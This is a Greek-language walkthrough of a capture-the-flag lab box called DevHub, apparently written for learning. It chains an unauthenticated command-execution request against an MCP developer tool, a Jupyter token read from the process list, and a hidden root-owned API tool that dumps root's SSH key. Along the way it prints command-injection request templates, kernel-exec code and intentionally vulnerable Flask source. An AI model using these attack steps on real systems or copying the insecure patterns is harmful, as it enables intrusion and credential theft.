

Το DevHub είναι μια περιήγηση σε ένα MCP developer toolchain που πήγε στραβά — καμία memory-corruption, κανένα έξυπνο exploit primitive, απλά τρεις υπηρεσίες που εμπιστεύονται η μία την άλλη περισσότερο απ' όσο θα έπρεπε. Το σημείο εισόδου είναι ένα φρέσκο bug του 2026: το CVE-2026-23744, unauthenticated RCE στο MCPJam Inspector, που θα γεννήσει ευχαρίστως οποιαδήποτε διαδικασία ονομάσεις. Από εκείνο το foothold είναι μια αλυσίδα διαρρευσάντων secrets — ένα token Jupyter που κάθεται στη λίστα διαδικασιών, πηγαίος κώδικας που μπορείς να διαβάσεις αλλά δεν θα έπρεπε, και ένα "κρυμμένο" εργαλείο admin MCP που τρέχει σαν root και παραδίδει το κλειδί SSH του root με το που το ζητήσεις. Χαρακτηριστικό παράδειγμα του πώς η εξάπλωση AI-tooling προσθέτει επιφάνεια επίθεσης που συμπεριφέρεται σαν κλασική λάθος ρύθμιση.
Τρεις θύρες: SSH, HTTP, και μια ασυνήθιστη στη 6274.
nmap
$ nmap -sC -sV -p- --min-rate 5000 <TARGET_IP>22/tcp open ssh OpenSSH 8.9p1 Ubuntu
80/tcp open http nginx
|_http-title: Did not follow redirect to http://devhub.htb/
6274/tcp open http Node.js
Η σελίδα προσγείωσης στη θύρα 80 είναι μια "Internal Development & Analytics Platform" και αναφέρει τρία στοιχεία — ένα MCP Inspector στη θύρα 6274, ένα Analytics Dashboard βασισμένο σε Jupyter (εσωτερικό, localhost:8888), και ένα Code Repository. Η περιήγηση στο http://devhub.htb:6274 ανοίγει το MCPJam· η σελίδα Settings του αναφέρει MCPJam Version: v1.4.2.
MCP = Model Context Protocol, το πρότυπο για να καλωδιώνεις agents LLM σε εργαλεία. Το MCPJam Inspector είναι ένα UI developer για να χτίζεις και να δοκιμάζεις servers MCP — το είδος AI-adjacent tooling που κυκλοφορεί γρήγορα και εκτίθεται κατά λάθος.
Foothold — CVE-2026-23744 (RCE MCPJam Inspector)
Το MCPJam Inspector ≤ 1.4.2 κάνει bind στο 0.0.0.0 και εκθέτει ένα unauthenticatedPOST /api/mcp/connect. Το endpoint παίρνει ένα serverConfig που περιγράφει έναν server MCP stdio για εκκίνηση — και γεννά εκείνη την command με εκείνα τα args απευθείας στον host. Δεν υπάρχει allow-list: ονόμασε οποιοδήποτε binary και τρέχει. Αυτό είναι αυθαίρετη εκτέλεση εντολών, χωρίς auth, πριν-από-όλα (patched στο 1.4.3).
the vulnerable request
POST /api/mcp/connect HTTP/1.1
Content-Type: application/json
{"serverConfig":{"command":"bash","args":["-c","<your command>"],"env":{}},"serverId":"pwn"}
Δημόσια PoCs πυροδοτούν ένα reverse shell εδώ. Πήγα για κάτι πιο σταθερό: αντί να πιάσω ένα shell, χρησιμοποίησα την εκτέλεση single-command για να φυτέψω το δημόσιο κλειδί SSH μου στο authorized_keys του τρέχοντος χρήστη, μετά να κάνω login κανονικά. Ένα request:
Το handshake MCP "αποτυγχάνει" γιατί το bash μας έτρεξε το append και βγήκε αντί να μιλήσει το πρωτόκολλο — αλλά η εντολή εκτελέστηκε. Το κλειδί προσγειώνεται, και παίρνουμε ένα καθαρό session:
ssh mcp-dev@devhub
$ ssh -i devhub_key mcp-dev@<TARGET_IP>mcp-dev@devhub:~$ id
uid=1001(mcp-dev) gid=1001(mcp-dev) groups=1001(mcp-dev)
Εσωτερικό Recon — Δύο Υπηρεσίες Loopback
Η ενδιαφέρουσα επιφάνεια είναι δεμένη στο localhost. Το ss -tulpn δείχνει δύο εσωτερικά listeners που το εξωτερικό scan δεν μπόρεσε να δει:
ss -tulpn
mcp-dev@devhub:~$ ss -tulpn | grep LISTEN127.0.0.1:5000 LISTEN # Flask "opsmcp" — running as root
127.0.0.1:8888 LISTEN # Jupyter Lab — running as analyst
0.0.0.0:6274 LISTEN # MCPJam
0.0.0.0:22 / :80
Το Jupyter χρειάζεται ένα token, και το Jupyter βάζει το token του στη δική του γραμμή εντολών. Το ps το παραδίδει, και δείχνει και τον κάτοχο της εφαρμογής Flask:
Secrets σε μια γραμμή εντολών είναι ορατά σε κάθε χρήστη στο box μέσω /proc/<pid>/cmdline — αυτό διαβάζει το ps. Tokens, passwords και κλειδιά ανήκουν σε αρχεία environment ή σε ένα secrets store με περιοριστικά perms, ποτέ στο argv.
analyst & user.txt — Εκτέλεση Κώδικα Jupyter
Και οι δύο εσωτερικές υπηρεσίες είναι loopback-only, οπότε τις προώθησα μέσω του session SSH (-L 8888:127.0.0.1:8888 -L 5000:127.0.0.1:5000). Με το token, το kernel API του Jupyter είναι ένα primitive εκτέλεσης κώδικα: ξεκίνα ένα kernel μέσω REST, μετά σπρώξε ένα execute_request πάνω από το WebSocket του kernel. Οτιδήποτε τρέχεις εκτελείται σαν analyst:
Jupyter kernel exec → analyst
# POST /api/kernels (Authorization: token …) → open ws /api/kernels/<id>/channels# send execute_request with:import os; print(os.popen("id; cat /home/analyst/user.txt").read())uid=1002(analyst) gid=1002(analyst) groups=1002(analyst)
[redacted — user flag]
Ένας server Jupyter είναι μια υπηρεσία remote code-execution εξ σχεδιασμού — όλη του η δουλειά είναι να τρέχει κώδικα που του στέλνεις. Το μόνο πράγμα που στέκεται ανάμεσα στο δίκτυο και την αυθαίρετη εκτέλεση είναι εκείνο το token, και εδώ το token ήταν αναγνώσιμο από οποιονδήποτε τοπικό χρήστη.
Root — Το Κρυμμένο Εργαλείο MCP
Σαν analyst μπορούμε τώρα να διαβάσουμε το /opt/opsmcp/server.py (κάτοχος analyst:analyst, mode 0640) — την πηγή εκείνης της εφαρμογής Flask που ανήκει στον root στη θύρα 5000. Είναι ένα API "operations" που εκθέτει εργαλεία τύπου-MCP, και έχει δύο προβλήματα ψημένα μέσα:

/opt/opsmcp/server.py (excerpt)
VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"# hardcoded
VISIBLE_TOOLS = { "ops.system_status": ..., "ops.list_services": ..., ... }
HIDDEN_TOOLS = { "ops._admin_dump": ..., "ops._debug_mode": ... }
ALL_TOOLS = {**VISIBLE_TOOLS, **HIDDEN_TOOLS}
@app.route('/tools/list')
def list_tools():
return jsonify({"tools": list(VISIBLE_TOOLS.keys())}) # hides the admin tool
@app.route('/tools/call', methods=['POST'])
def call_tool():
if tool_name not in ALL_TOOLS: ... # but accepts it anyway
if tool_name == "ops._admin_dump" and target == "ssh_keys":
return open('/root/.ssh/id_rsa').read() # runs as root
Το εργαλείο είναι "κρυμμένο" μόνο με την έννοια ότι το /tools/list δεν το διαφημίζει — το /tools/call κάνει validate ενάντια στο ALL_TOOLS, οπότε είναι πλήρως καλέσιμο. Και επειδή ολόκληρη η διαδικασία τρέχει σαν root, μπορεί να διαβάσει το ιδιωτικό κλειδί του root. Ένα request με το διαρρεύσαν κλειδί:
Δύο αποτυχίες στοιβάζονται εδώ: ένα hardcoded credential στην πηγή, και το να μεταχειρίζεσαι την αφάνεια σαν authorization — ένα μη-λιστσαρισμένο endpoint είναι ακόμα endpoint. Μια privileged υπηρεσία που εκθέτει καν μια λειτουργία "dump credentials" είναι το πραγματικό πρόβλημα· το να την κρύψεις από μια λίστα δεν αλλάζει τίποτα.
Γιατί Δούλεψε
Σταδιο
Ριζα του προβληματος
→ mcp-dev
Το MCPJam Inspector ≤1.4.2 γεννά μια διαδικασία ονομασμένη από τον επιτιθέμενο από ένα unauthenticated endpoint δεμένο στο 0.0.0.0 — CVE-2026-23744 (CWE-78 / CWE-306)
→ analyst
Token Jupyter περασμένο στη γραμμή εντολών, αναγνώσιμο από οποιονδήποτε τοπικό χρήστη μέσω ps / /proc (CWE-214 / CWE-522)
→ root
Υπηρεσία root με ένα hardcoded API key και ένα καλέσιμο "κρυμμένο" εργαλείο που κάνει dump το /root/.ssh/id_rsa (CWE-798 / CWE-269 / security-by-obscurity)